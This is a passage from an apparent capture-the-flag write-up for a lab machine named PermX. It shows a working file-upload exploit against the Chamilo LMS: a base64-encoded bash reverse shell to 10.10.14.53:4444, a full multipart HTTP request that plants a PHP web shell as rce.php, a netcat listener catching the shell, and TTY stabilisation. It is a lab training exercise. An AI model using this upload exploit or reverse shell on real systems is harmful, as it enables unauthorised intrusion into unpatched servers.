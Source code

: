 I created a payload to launch a reverse shell. Using `base64` to avoid any special characters.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.53/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxICAK
```

Then I sent that payload into a file.

```http
POST /main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported HTTP/1.1
Host: lms.permx.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: ch_sid=m28csg3c9iartsjn9vu1o1otvq
If-Modified-Since: Sat, 20 Jan 2024 18:20:39 GMT
If-None-Match: "55ee-60f64a75fc4e2-gzip"
Priority: u=4
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 23


-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="bigUploadFile"; filename="rce.php"
Content-Type: text/plain

<?php `echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxICAK|base64 -d|bash`; ?>
-----------------------------27067171744469957932680288557--
```

I started a `netcat` listener and accessed the uploaded file.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.129.7.27] 55080
bash: cannot set terminal process group (1153): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## User mtz

I was on the server. I started by stabilizing my shell.

```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
<ort pty; pty.spawn("/bin/bash")'; export TERM=xterm

www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
[1]  + 23979 suspended  nc -klvnp 4444

$ stty -a
speed 38400 baud; rows 54; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
```